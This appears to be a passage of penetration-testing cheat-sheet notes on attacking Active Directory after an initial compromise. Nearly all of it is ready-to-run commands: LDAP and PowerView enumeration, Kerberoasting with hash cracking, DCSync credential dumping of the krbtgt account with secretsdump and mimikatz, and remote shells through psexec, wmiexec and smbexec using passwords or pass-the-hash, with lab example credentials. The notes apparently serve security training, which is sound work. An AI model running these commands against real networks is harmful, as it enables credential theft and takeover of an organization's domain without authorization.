 #### LDAP Enumeration:
```bash
# Detailed LDAP dump
ldapdomaindump -u 'DOMAIN\user' -p 'password' ldap://<DC-IP>

# Parse specific information
grep -i "admincount=1" domain_users.grep
```

#### PowerView
```powershell
# Import Module
Import-Module .\PowerView.ps1

# Domain Enumeration
Get-NetDomain
Get-NetUser
Get-NetGroup
Get-NetComputer
```

Other tools: See the Post-Compromise Enumeration.md notes
- Plumhound
- PingCastle


### Post-Compromise Attacks

#### Kerberoasting
```bash
# Request TGS
- Ldapdomaindump
GetUserSPNs.py domain/user:pass -dc-ip IP -request

# Crack Hash
hashcat -m 13100 spns.txt /usr/share/wordlists/rockyou.txt
```

#### DCSync
```bash
# Using Secretsdump
secretsdump.py domain/user:pass@DC-IP

# Using Mimikatz
privilege::debug
lsadump::dcsync /domain:domain.local /user:krbtgt
```
#### Shell Access with PsExec
```bash
# Using psexec.py with password
psexec.py DOMAIN/username:'password'@target-ip
psexec.py marvel.local/fcastle:'Password123'@10.0.0.10

# Using psexec.py with hash
psexec.py -hashes LM:NT administrator@target-ip
psexec.py -hashes :NT administrator@target-ip  # If you only have NT hash

# Using psexec.py with domain credentials
psexec.py administrator@target-ip -hashes aad3b435b51404eeaad3b435b51404ee:hash-here

# Alternative tools (might work when psexec fails)
wmiexec.py DOMAIN/username:'password'@target-ip
wmiexec.py -hashes :NT administrator@target-ip
smbexec.py DOMAIN/username:'password'@target-ip
smbexec.py -hashes :NT administrator@target-ip
```